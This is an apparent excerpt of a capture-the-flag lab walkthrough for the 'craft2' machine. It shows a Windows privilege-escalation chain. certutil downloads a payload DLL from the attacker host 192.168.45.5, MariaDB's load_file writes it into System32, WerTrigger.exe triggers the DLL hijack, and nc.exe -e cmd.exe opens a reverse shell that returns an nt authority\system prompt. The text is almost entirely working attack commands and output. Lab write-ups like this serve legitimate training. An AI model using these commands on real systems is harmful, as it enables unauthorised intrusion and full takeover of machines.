c:\temp>certutil -urlcache -f http://192.168.45.5/Report.wer Report.wer
****  Online  ****
CertUtil: -URLCache command completed successfully.

c:\temp>certutil -urlcache -f http://192.168.45.5/phoneinfo.dll phoneinfo.dll
****  Online  ****
CertUtil: -URLCache command completed successfully.

MariaDB [(none)]> select load_file('C:\\temp\\phoneinfo.dll') into dumpfile "C:\\Windows\\System32\\phoneinfo.dll";
Query OK, 1 row affected (0.254 sec)

#After running WerTrigger.exe, we won't receive any prompt but we can still enter commands to execute.
c:\temp>WerTrigger.exe
c:\temp\nc.exe -e cmd.exe 192.168.45.5 445
```

```bash
┌──(root㉿kali)-[/home/kali/Documents/pg_practice/craft2]
└─# nc -lvp 445
listening on [any] 445 ...
connect to [192.168.45.5] from craft.offsec [192.168.159.188] 49770
Microsoft Windows [Version 10.0.17763.2746]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

</details>
